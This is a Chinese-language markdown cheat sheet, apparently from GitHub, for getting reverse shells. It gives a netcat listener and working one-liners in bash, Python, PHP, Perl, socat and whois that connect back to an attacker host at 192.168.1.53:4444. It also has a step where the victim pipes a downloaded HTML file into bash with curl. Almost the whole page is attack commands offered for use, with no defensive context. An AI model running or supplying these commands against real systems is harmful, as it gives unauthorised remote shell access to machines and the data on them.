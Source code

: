 ShellCode 是指一段小型的机器代码，通常用于在计算机系统中执行特定的恶意操作。

## 1 监听端口

Netcat 侦听端口用于接收反弹 `shell`

```shell
┌──(root㉿kali)-[~]
└─# nc -lnvp [port]
```

## 2 反弹 Shell

**Bash**

```shell
[root@centos ~]# bash -i >& /dev/tcp/[host]/[port] 0>&1
```

**Curl 反弹**
开启 Web 服务

```shell
┌──(root㉿kali)-[~]
└─#  systemctl start apache2.service
```

将反弹 Shell 写入 HTML 文件

```shell
┌──(root㉿kali)-[/var/www/html]
└─# vim bash.html   
```

```
bash -i >& /dev/tcp/192.168.1.53/4444 0>&1
```

受害者下载并运行攻击者的文件

```
[root@centos ~]# curl 192.168.1.53/bash.html | bash
```

**Whois 反弹**

下载 `whois` 

```
[root@centos ~]# yum install -y whois
```

反弹的 Shell 并执行命令

```
[root@centos ~]# whois -h 192.168.1.53 -p 4444 [command]
```

**Python 反弹**

```
[root@centos ~]# python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.53",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**PHP 反弹**

安装 `php`

```
[root@centos ~]# yum install php -y
```

反弹 Shell

```
[root@centos ~]# php -r '$sock=fsockopen("192.168.1.53",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Socat 反弹**

安装 `socat`

```
[root@centos ~]# yum install -y socat
```

反弹 Shell

```
[root@centos ~]# socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.53:4444
```

**Perl 反弹**

```
[root@centos ~]# perl -e 'use Socket;$i="192.168.1.53";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

---

Refrences

- [Reverse Shell Generator](https://www.revshells.com/)
